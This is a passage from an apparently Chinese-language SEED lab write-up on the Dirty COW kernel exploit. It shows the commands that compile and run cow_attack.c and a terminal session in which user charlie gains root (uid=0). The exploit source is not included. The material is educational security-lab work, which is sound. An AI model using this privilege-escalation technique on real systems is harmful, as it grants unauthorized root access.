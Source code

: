 
### 编译执行

```
gcc cow_attack.c -lpthread
./a.out
```

![image-20220322151410792](DirtyCOW/image-20220322151410792.png)

> 攻击成功后，如果将用户切换到 `charlie`，您应该能够在 shell 提示符下看到 `#` 符号，这是root shell 的指示符。如果运行 id 命令，您应该能够看到您已经获得了 root 特权。

```bash
seed@ubuntu$ su charlie
Passwd: seedubuntu
root@ubuntu# id
uid=0(root) gid=1001(charlie) groups=0(root),1001(charlie)
```

![image-20220322151517002](DirtyCOW/image-20220322151517002.png)

可知，攻击成功。